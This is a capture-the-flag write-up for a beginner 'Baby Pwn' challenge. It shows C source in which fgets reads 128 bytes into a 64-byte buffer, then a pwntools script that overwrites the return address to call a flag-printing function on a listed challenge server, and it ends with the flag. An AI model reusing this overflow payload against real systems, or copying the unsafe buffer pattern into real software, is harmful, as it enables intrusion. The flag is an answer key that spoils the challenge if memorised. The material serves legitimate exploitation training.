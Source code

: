 # Baby Pwn
## Challenge Description
![Screenshot 2025-01-12 180747](https://github.com/user-attachments/assets/81feb3a7-6305-40c9-a0b2-2c93a0d7c0c0)  
**Given Source Code:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void secret()
{
    printf("Congratulations! Here is your flag: ");
    char *argv[] = {"/bin/cat", "flag.txt", NULL};
    char *envp[] = {NULL};
    execve("/bin/cat", argv, envp);
}

void vulnerable_function()
{
    char buffer[64];
    printf("Enter some text: ");
    fgets(buffer, 128, stdin);
    printf("You entered: %s\n", buffer);
}

int main()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    printf("Welcome to the Baby Pwn challenge!\n");
    printf("Address of secret: %p\n", secret);
    vulnerable_function();
    printf("Goodbye!\n");
    return 0;
}
```

## Solution
From the given source code, inside the **vulnerable_function()**, ther is a **char buffer[64]** where it can only store 64 bytes of data.
This is a buffer overflow vulnerability, where user can submit a string more than 64 byte which over the array limit causing a buffer overflow attack.  
After running the program, it will also print out the secret address which can be used to investigate in assembly code.

### Ghidra
![Screenshot 2025-01-12 181023](https://github.com/user-attachments/assets/406ae3fa-366c-4a12-8cfa-8331aaf4bfe3)
When inspecting the assemble of the code, the secret address pushes the RBP to run the secret function which has a **/bin/cat** location and **flag.txt**. 
By knowing this secret function, we can create a payload of 72 bytes (64 bytes + 8 bytes from Base Pointer) with the given secret address. So here is the exploit code:  
```c
from pwn import *

# Connection details
HOST = "34.162.142.123"
PORT = 5000

# Offsets and addresses (update if required)
BUFFER_SIZE = 64  # Buffer size in vulnerable_function
SECRET_FUNC_ADDR = 0x00401166  # Replace with the actual address from the binary

# Create the payload
payload = b"A" * BUFFER_SIZE  # Overwrite buffer
payload += b"B" * 8  # Overwrite saved RBP
payload += p64(SECRET_FUNC_ADDR)  # Overwrite return address with secret()

# Start the exploit
io = remote(HOST, PORT)
io.recvuntil(b"Enter some text: ")  # Wait for the prompt
io.sendline(payload)  # Send the payload

# Receive and print the flag
io.interactive()
```


## Challenge Flag
uoftctf{buff3r_0v3rfl0w5_4r3_51mp13_1f_y0u_kn0w_h0w_t0_d0_1t}  
_My first pwn challenge XD_
